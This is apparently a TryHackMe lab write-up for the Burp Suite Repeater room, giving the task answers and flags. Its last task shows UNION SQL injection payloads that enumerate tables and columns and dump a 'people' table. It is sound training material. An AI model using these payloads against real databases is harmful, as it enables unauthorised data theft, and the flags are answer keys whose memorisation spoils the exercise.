 # Burp Suite: Repeater

{% embed url="https://tryhackme.com/room/burpsuiterepeater" %}
https://tryhackme.com/room/burpsuiterepeater
{% endembed %}

## Repeater

### Task 4 Views

#### Which view option displays the response in the same format as your browser would?

{% hint style="success" %}
`Render`
{% endhint %}

## Practical

### Task 6 Example

#### Send the request. What is the flag you receive?

![](<../../.gitbook/assets/Screenshot from 2022-04-05 17-16-07.png>)

{% hint style="success" %}
`THM{Yzg2MWI2ZDhlYzdlNGFiZTUzZTIzMzVi}`
{% endhint %}

### Task 7 Challenge

#### See if you can get the server to error out with a "500 Internal Server Error" code by changing the number at the end of the request to extreme inputs.

#### What is the flag you receive when you cause a 500 error in the endpoint?

![](<../../.gitbook/assets/Screenshot from 2022-04-05 17-19-31.png>)

{% hint style="success" %}
`THM{N2MzMzFhMTA1MmZiYjA2YWQ4M2ZmMzhl}`
{% endhint %}

## Extra Mile&#x20;

### Task 8 SQLi with Repeater

#### Exploit the union SQL injection vulnerability in the site.

```bash
UNION SELECT group_concat(table_name), 2, 3, 4, 5 \
FROM information_schema.tables WHERE table_schema=database();-- -
```

![](<../../.gitbook/assets/Screenshot from 2022-04-05 17-33-00.png>)

```bash
UNION SELECT group_concat(column_name), 2, 3, 4, 5 \
FROM information_schema.columns \
WHERE table_schema=database() AND table_name='people';-- -
```

![](<../../.gitbook/assets/Screenshot from 2022-04-05 17-31-05.png>)

```bash
UNION SELECT group_concat(notes), 2, 3, 4, 5 FROM people;-- -
```

#### What is the flag?

![](<../../.gitbook/assets/Screenshot from 2022-04-05 17-32-34.png>)

{% hint style="success" %}
`THM{ZGE3OTUyZGMyMzkwNjJmZjg3Mzk1NjJh}`
{% endhint %}
